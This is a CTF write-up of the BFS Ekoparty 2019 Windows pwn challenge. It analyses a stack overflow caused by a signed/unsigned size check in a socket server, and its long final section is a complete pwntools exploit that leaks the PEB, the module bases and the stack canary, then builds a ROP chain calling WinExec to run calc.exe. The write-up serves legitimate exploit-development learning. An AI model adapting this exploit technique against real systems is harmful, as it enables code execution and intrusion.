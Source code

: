 #+TITLE: BFS CTF 2019 - Eko (windows/pwn)
#+author: Daniel Brodsky
#+date: 2019-10-12
#+hugo_base_dir: ../../
#+hugo_section: writeups
#+startup: inlineimages
#+hugo_menu: :menu "foo" :weight 10 :parent main :identifier single-toml
#+description: windows pwn that isn't just reversing a bunch of obfuscated .NET assembly or a VB script or some shit

** Problem
This problem had no initial description. It was given to me with the offer of getting a ~calc.exe~ sticker if I managed to pop calc.
[[/Eko2019_challenge.zip][Eko2019]]

** Analysis
The binary provided I need to pwn is a PE32+ Windows executable. Running the binary prints the following:
    
#+begin_src text
[+] Ekoparty 2019 - BFS challenge
[+] Server listening
[+] Waiting for client connections

#+end_src

and then hangs. Using the references to these strings in memory finds us the function that's the most likely entry for our program's logic.
Most symbols for functions were available after loading a MS symbol server into IDA. Some reversing still needed to be done on local variables to understand their purpose.

This is the code after some cleanup.

[[/w5_main.png]]

Looking at the decompiled code for this function in IDA, we see that it opens a socket on port 54321, and waits for a connection. Upon receiving a connection, it passes the established connection to another function for further processing. The function ~handleMessage~ first checks the first 16 bytes received from the new connection, expecting the first 8 bytes to be the cookie ~Eko2019\0~, followed by an 8 byte value representing the size of the following write. Adding this header struct to IDA cleaned up the decompiled code a bit.

[[/w5_header.png]]

This is the important part of the ~handleMessage~ function after some cleanup.

[[/w5_handleMessage.png]]

Aside from the header check, a couple things stand out immediately. The first is that the size check in the header uses a signed value when checking its upper bound, but an unsigned value when using it to read additional input from the connection. This means that it's possible to write more data than the size of the ~Dst~ buffer, resulting in a stack overflow. However, attempting to use this stack overflow to get code execution directly is no good, as there is a stack canary located just below the header struct in the stack (an IDA decompiler bug hid the canary logic in the decompiled code).

[[/w5_canary.png]]

The other significant logic in the decompiled code that stands out are the calls to ~GetCurrentProcess~ and ~WriteProcessMemory~. ~GetCurrentProcess~ just takes the current process and returns a process handle.

~WriteProcessMemory~ is more interesting. This is the function signature of WriteProcessMemory, taken from [[https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory][Microsoft's Win32 docs]]:

#+begin_src C++
BOOL WriteProcessMemory(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);
#+end_src

This function takes ~nSize~ bytes of memory from the location ~lpBuffer~ and writes into to ~lpBaseAddress~ inside of ~hProcess~. In this program's case, it's going to write 8 bytes from a buffer created by the function call to ~reverse_str~ with the args set to ~dst_loc[v8=0x3E]~. The value is going to be written into memory and executed as a function with ~v9~ as its argument, and the result will be sent to us by the call to ~send~. The address of the value we're sent comes from ~dst_loc~, which was set to a series of values in ~main~.

#+begin_src C
// this sets the possible values for the data that's written during WriteProcessMemory
  for ( i = 0; i < 0x100; ++i )
  {
    argv = (const char **)dst_loc;
    dst_loc[i] = ((unsigned __int64)i << 56) + 0x488B01C3C3C3C3i64; // 0xC3 are rets
  } 

#+end_src

** Vulnerability

Earlier I mentioned that the stack overflow we get from abusing the signed comparison and unsigned use of the size we pass in couldn't be used to get code execution, since there is a stack canary. However, we can still use this stack overflow to overwrite anything between the ~Dst~ buffer and the end of the stack for the current function.

#+begin_src C
  char *Dst; // [rsp+60h] [rbp-238h]
  int v8; // [rsp+260h] [rbp-38h]
  __int64 *v9; // [rsp+268h] [rbp-30h]
  eko_s buf; // [rsp+270h] [rbp-28h]
  SOCKET s; // [rsp+2A0h] [rbp+8h]
#+end_src

In particular we see here that ~v8~ and ~v9~ can be overwritten when ~Dst~ is overflown. ~v8~ is the variable used to index into ~dst_loc~ to obtain the address whose value we're going to be sent, and ~v9~ is the argument passed to the function selected by ~v8~. We can overwrite ~v8~ and have it set to any index of ~dst_loc~ we want, and we can override ~v9~ to get any argument value for the function we select from ~v8~.

Using a small script we can generate all values contained inside of ~dst_loc~ to see if there are any useful values to use as shellcode (we could also have read them from memory after being generated but this was about just as easy).

#+begin_src python
from pwn import *
start = 0x488B01C3C3C3C3

context.arch='amd64'
p64b = make_packer(64, endian='big', sign='unsigned')

instr = []
for i in range(256):
    print disasm(p64b(( i << 56 ) + start))
#+end_src

Of the values generated by this script, 2 of them are useful for our needs.

#+begin_src asm
Index 0x65
   0:   65 48 8b 01             mov    rax,QWORD PTR gs:[rcx] // returns the value at gs:v9
   4:   c3                      ret    
   5:   c3                      ret    
   6:   c3                      ret    
   7:   c3                      ret
#+end_src

#+begin_src asm
Index 0x66
   0:   66 48 8b 01             data16 mov rax,QWORD PTR [rcx] // returns *v9
   4:   c3                      ret    
   5:   c3                      ret    
   6:   c3                      ret    
   7:   c3                      ret
#+end_src

Why are these 2 snippets of shellcode useful? In the case of index 0x66 it gives us the ability to read any 8 bytes from program memory that we know the address to. For index 0x65 we need to know more about Windows internals.

On AMD64 (Linux) based systems, the segment register gs is used to obtain CPU-related information for the process during runtime. However, for Windows systems the gs register is used to store the [[https://en.wikipedia.org/wiki/Win32_Thread_Information_Block][Thread Information Block]] (TIB). This block contains a lot of useful information the thread may need to lookup when switching in and out of context. One particularly useful item the TIB stores at index 0x60 is the [[https://en.wikipedia.org/wiki/Process_Environment_Block][Process Environment Block]] (PEB), which stores the lowest-level information needed in userspace and the highest level information needed in kernelspace. From here at offset 0x18 we can find the address to the [[https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb_ldr_data][ldr]], a data structure used to store pointers to all loaded modules available in the process' space. It stores this information in the form of a linked list known as the InMemoryOrderModuleList (IMOML), whose head can be accessed at offset 0x20. The structure of an entry in this list is as follows:

#+begin_src C
typedef struct _LDR_DATA_TABLE_ENTRY {
    PVOID Reserved1[2];
    LIST_ENTRY InMemoryOrderLinks; // ptr to struct that holds linked list pointers
    PVOID Reserved2[2];
    PVOID DllBase;                 // base address of the loaded module
    PVOID EntryPoint;
    PVOID Reserved3;
    UNICODE_STRING FullDllName;
    BYTE Reserved4[8];
    PVOID Reserved5[3];
    union {
        ULONG CheckSum;
        PVOID Reserved6;
    };
    ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;
#+end_src

The first DLL that's loaded into our process is our binary, so reading offset 0x20 (we start at the list entry and move 0x20 down from there) will get us the base address of our binary. With that, we now have all the tools we need to start forming an exploit.


** Exploit

While the vulnerability above is pretty useful, there's still a lot of work to be done if we want to pop calc on this program. We still need to get the following things:
- a canary leak so we can form a ropchain
- an address to WinExec or a similar function that lets us execute arbitrary PEs
- a ropchain to put our exploit together

*** Canary leak

How a canary is stored for a binary on Windows is different from Linux. On Linux the canary is stored at fs:0x28, which is where glibc places the [[https://stackoverflow.com/questions/10325713/why-does-this-memory-address-fs0x28-fs0x28-have-a-random-value][stack guard value]] each time the process is run. On Windows the stack canary location is hardcoded into the binary at a set offset, which we can easily find by looking at the binary we have. In this binary, the canary is offset ~0xC240~ from the starting address. From what we saw in the previous section, we know the base address of our binary and we can therefore use the same vulnerability as before to get the canary value ~baseDLL+0xC240~. 

Unfortunately, this isn't the actual canary value we're looking for. If you look back to the assembly code used to set the canary value at the top of the function ~handleMessage~ you'll notice that the canary is xor'd by rsp. In order to get the true canary value, we'll need to leak the value of rsp at the time of our function. To do this we can read from ~gs:0x8~, which corresponds to the ~stackBase~ in the TIB and gives us the base of the stack in our process. While we could attempt to compute the exact offset from the stack base that our rsp should be at, I opted to instead brute force the value by reading upwards on the stack until I reached a value I was sure I knew the location of relative to rsp. After that, I read upwards the necessary offset on the stack to get rsp and xor'd it with the canary leak to get the true canary.

#+begin_src python
curr_addr = stack_base
while True:
    curr_addr -= 0x8
    print 'curr addr: ' + str(curr_addr)
    curr_val = u64(send(p64(0x66) + p64(curr_addr)))
    print 'curr val: ' + str(curr_val)
    if curr_val == known_val:
        break
curr_addr -= known_to_rsp_offset # comparing to stack value 0x8 lower than stack top
print 'stack top addr: ' + str(curr_addr)

# xor original canary with rsp value for true canary
true_canary = canary_addr ^ curr_addr
print 'true canary: ' + str(hex(true_canary))
#+end_src

*** WinExec Address
Using the IMOML address we obtained earlier, we can read further into the linked list to obtain list entries to other DLLs that were loaded into the process. Since we want ~WinExec~ so that we can run ~calc.exe~, we'll need to read through the IMOML until we get to the ~kernel32.dll~. ~WinExec~ is always loaded to the same offset from the kernel32 base address for the specific version of Windows, so we just need to get the base address and we're good. There's also [[https://www.ired.team/offensive-security/code-injection-process-injection/finding-kernel32-base-and-function-addresses-in-shellcode#finding-winexec-rva-in-the-export-address-table][ways to get the WinExec address]] if we don't know the version of Windows], but they were unnecessary for this problem. After leaving the entry for the process DLL, we'll end up at the NTDLL module. Going one step further brings us to the kernel32 module's entry where we can get the base address like we did before. In this binary's case, ~WinExec~ is also loaded as an external function so we can get it by doing ~procBase+offset~ as well.

[[/w5_offset.png]]

*** Ropchain
Now that we have our function to pop ~calc.exe~ and the true stack canary, we can form a ROP chain to get what we came for. I'm not going to go into too much detail about how I made this ropchain, but I used ropper to get all possible gadgets and then found the ones that were useful for setting up a call to ~WinExec~. I reused the buffer provided to store the path to ~calc.exe~ and the same technique I used earlier to get the stack canary to get the address of the buffer so I could pass it as an argument to ~WinExec~.

You can see my full exploit below.

#+begin_src python

from pwn import *
from ctypes import *

class header_s(Structure):
    _fields_ = [
            ("cookie", c_char * 8),
            ("size", c_int64)
            ]

def to_str(struct):
    return string_at(addressof(struct), sizeof(struct))

def send(arg):
    p = remote('localhost', 54321)
    header = header_s("Eko2019", -448)
    p.sendline(to_str(header))
    p.sendline('A'*0x1ff + arg + 'AAAAAAA')
    return p.recv()

canary_offset = 0xC240 # canary offset in memory is hardcoded for windows
known_addr_offset = 0x1000 # known addr location is baseDLL + this offset


# loop 1 - get address of PEB using gs:0x60
get_peb = p64(0x65) + p64(0x60)
peb_addr = u64(send( get_peb ))
print 'peb: ' + str(peb_addr)
# loop 2 - get ldr address using cs:<PEB+0x18>
get_ldr = p64(0x66) + p64(peb_addr + 0x18)
ldr_addr = u64(send( get_ldr ))
print 'ldr: ' + str(ldr_addr)
# loop 3 - get InMemoryOrderModuleList adress using cs:<ldr+0x20> (ekoEntry)
get_imoml = p64(0x66) + p64(ldr_addr + 0x20)
imoml_addr = u64(send( get_imoml ))
print 'imoml: ' + str(imoml_addr)
# loop 4 - get DLL base address using cs:<InMemoryOrderModuleList+0x30>
# (offset by 0x10 from where pointer located in linked list so 0x20)
get_dll = p64(0x66) + p64(imoml_addr + 0x20)
dll_addr = u64(send( get_dll ))
print 'dll: ' + str(dll_addr)
# loop 5 - leak original stack canary with cs:<base+canary_offset>
get_canary = p64(0x66) + p64(dll_addr + canary_offset)
canary_addr = u64(send( get_canary ))
print 'canary: ' + str(canary_addr)
# loop 6 - get stackBase from TIB
get_stackBase = p64(0x65) + p64(0x8)
stack_base = u64(send( get_stackBase ))
print 'stack base: ' + str(stack_base)
# loop 6.5 - loop until we get stack top (== to known_offset + known_to_rsp_offset)
# using some string address that only gets used once here
known_val = dll_addr + known_addr_offset
known_to_rsp_offset = 0x8
print 'known val: ' + str(known_val)

curr_addr = stack_base
while True:
    curr_addr -= 0x8
    print 'curr addr: ' + str(curr_addr)
    curr_val = u64(send(p64(0x66) + p64(curr_addr)))
    print 'curr val: ' + str(curr_val)
    if curr_val == known_val:
        break
curr_addr -= known_to_rsp_offset # comparing to stack value 0x8 lower than stack top
print 'stack top addr: ' + str(curr_addr)

# xor original canary with rsp value for true canary
true_canary = canary_addr ^ curr_addr
print 'true canary: ' + str(hex(true_canary))
# loop 7 - get ntdll block address using cs:<ekoEntry+0x10>)
# (offset by 0x10 from where pointer located in linked list so no offset)
get_ntdll = p64(0x66) + p64(imoml_addr)
ntdll_addr = u64(send( get_ntdll ))
print 'ntdll: ' + str(ntdll_addr)
# loop 8 - get kernel32 block address using cs:<ntdll+0x10>
get_kernel = p64(0x66) + p64(ntdll_addr)
kernel_addr = u64(send( get_kernel ))
print 'kernel: ' + str(kernel_addr)
# loop 9 - get kernel32 base address using cs:<kernel+0x30>
get_kernel_base = p64(0x66) + p64(kernel_addr + 0x20)
kernel_base = u64(send( get_kernel_base ))
print 'kernel_base: ' + str(kernel_base)
# compute address of WinExec in kernel32.dll
# can also do LoadLibraryA on smb share UNC name to run custom DLL
WinExec_offset = 0x5e800
winexec_addr = kernel_base + WinExec_offset

# location where we write the path name arg for WinExec
dst_stack = curr_addr + 0x68

# ROPchain from ropper to write our path name from dst into rcx (windows arg1 register) and call WinExec
# pop rax; ret;
pop_rax = dll_addr + 0x1167
# pop rbx; ret;
pop_rbx = dll_addr + 0x16f9
# mov rcx, rbx; call rax
mov_rcx_rbx_call_rax = dll_addr + 0x6081

# loop 10 - ROP chain to call LoadLibrary with calc.exe DLL
p = remote('localhost', 54321)
header = header_s("Eko2019", -448)
p.sendline(to_str(header))
p.sendline('A'*7 + 'C:\\Windows\\System32\\calc.exe\x00'.ljust(0x1f8,'A') + p64(0x66) + p64(kernel_addr + 0x20) +
        'A'*0x10 + p64(true_canary) + 'A'*0x10 +
        p64(pop_rax) +
        p64(winexec_addr) +
        p64(pop_rbx) +
        p64(dst_stack) +
        p64(mov_rcx_rbx_call_rax) +
        'A'*7)

# pop :)
pause()

#+end_src

Finally, the full exploit has been assembled and we can get that sweet, sweet ~calc~.

Here's the exploit spamming a few hundred connections while brute-forcing the stack.

[[/w5_x.png]]

And here's calc!

[[/w5_calc.png]]

** Opinion
I'm not much of a fan of Windows, but pwning it was pretty cool. This problem was what I wish more CTF problem writers would use as inspiration when writing Windows problems, as most of the time it's some boring and unfun .NET or VB reversing problem. Working on a Windows problem instead of a Linux problem also meant I came away with significantly more new knowledge, since this was a domain I rarely see or work on during CTFs.

Note: I left out in this writeup the hours I spent trying to understand the Windows internals structure from within Windbg because, in reflection, I've realized that much of this problem could have been done completely statically. There's always a fine balance that needs to be found between spending time looking for information and paths to approach a problem, and it's one of the skills I still need to work on when it comes to CTFs and also my career.

** References
 - [[https://www.geoffchappell.com/studies/windows/win32/ntdll/structs/peb/index.htm][in-depth windows internals information]]
 - [[https://en.wikipedia.org/wiki/Win32_Thread_Information_Block][struct layout for TIB]]
 - [[https://reverseengineering.stackexchange.com/questions/16336/where-es-gs-fs-are-pointing-to][history on segment registers]]
 - [[https://en.wikipedia.org/wiki/Process_Environment_Block][struct layout PEB]]
 - [[https://www.ired.team/offensive-security/code-injection-process-injection/finding-kernel32-base-and-function-addresses-in-shellcode#initialized-structures][getting WinExec]]
